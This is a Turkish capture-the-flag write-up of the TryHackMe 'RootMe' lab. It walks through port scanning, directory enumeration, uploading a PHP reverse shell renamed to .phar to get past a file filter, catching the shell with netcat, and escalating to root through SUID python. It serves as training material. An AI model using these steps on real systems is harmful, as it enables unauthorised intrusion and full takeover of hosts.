 ```yaml
---
title: 'TryHackMe | RootMe WriteUp'
author: appdone
categories: [TryHackMe Challenges]
render_with_liquid: false
media_subpath: /images/tryhackme_rootme/
image:
  path: logo.webp
---
```


Merhaba, bu yazıda TryHackMe platformunda yer alan "RootMe" isimli meydan okumayı çözeceğiz. Öncelikle hedefi tanımak adına nmap ile bir port taraması yapalım. Daha sonra açık portlara ve üzerinde çalışan servislere göre yolumuzu çizmeye başlayabiliriz.

```console
$ nmap -sSVC --min-rate 1000 10.10.53.233
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-15 11:24 EDT
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Tarama sonucunda 22 (SSH) ve 80 (HTTP) numaralı portların açık olduğunu öğreniyoruz. Servislerin sürümlerinden yola çıkarak hiçbir şey yapamayacağımızdan doğrudan web uygulamasına yöneleceğiz.

Web sitesinin ana sayfasında önemli bir bilgi bulunmuyor. Daha fazla dosya ve dizin bulmak için Dirsearch aracını kullanacağım.

```console
$ dirsearch -u http://10.10.53.233
...
[11:26:55] 301 -  310B  - /css  ->  http://10.10.53.233/css/
[11:27:08] 200 -  464B  - /js/
[11:27:18] 200 -  388B  - /panel/
[11:27:37] 200 -  405B  - /uploads/
...
```

Tarama sonucunda panel ve uploads olmak üzere iki dizin keşfediyoruz. Panel dizininde bir login sayfası bulunuyor. Uploads dizininde ise adından da anlaşılacağı üzere yüklenen dosyalar bulunuyor.

![file upload](1.webp){: width="1200" height="600" }

Panel dizinindeki form'a php ile yazılmış olan reverse shell dosyasını yüklemeye çalıştığımda php dosyalarının yasaklı olduğunu öğreniyorum. Dosya adını sürekli değiştirerek sayfayı yüklemeye çalıştığımda .phar dosyalarının sorunsuzca yüklendiğini anladım.

![file upload](2.webp){: width="1200" height="600" }

Dosyayı yükledikten sonra uploads dizininde olup olmadığını kontrol ettim. Daha sonra 1234 numaralı portu netcat ile dinlemeye aldım ve dosyayı çalıştırdım.

```console
$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.21.66.61] from (UNKNOWN) [10.10.53.233] 46542
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 15:36:02 up 13 min,  0 users,  load average: 0.01, 0.07, 0.10
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

Bağlantıyı aldıktan sonra user.txt dosyasını bulmak için dizinleri gezmeye başladım ve /var/www dosyasında olduğunu gördüm.

```console
www-data@rootme:/var/www$ cat user.txt
THM{***}
www-data@rootme:/var/www$
```

Son olarak yetki yükselterek son bayrağı almamız gerekiyor. SUID bitine sahip dosyaları listeledikten sonra python dosyasını sahibi olan root kullanıcısı adına çalıştırabileceğimi gördüm.

```console
www-data@rootme:/var/www$ find / -perm -4000 2>/dev/null
...
/usr/bin/python
...
```

Bundan sonra yapmamız gereken tek şey "-c" parametresi ile os modülünü kullanarak bash'e geçmektir. Root haklarında çalışacağı için yetki yükseltmiş olacağız.

```console
www-data@rootme:/var/www$ python -c "import os;os.system('bash')"
www-data@rootme:/var/www$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
# cd /root
# ls
root.txt
# cat root.txt
THM{***}
```

Yetki yükselttikten sonra /root dizininden son bayrağı aldım. Bu arada resimde gördüğünüz ilk komutu girdikten sonra yetki yükseltemedim. Tekrar denemek için yukarı ok işaretini kullanarak aynı komutu seçtiğimde kendisi otomatik olarak komutu düzenledi. Böyle bir şey ile ilk defa karşılaşıyorum. Neden olduğu konusunda bir fikrim yok.
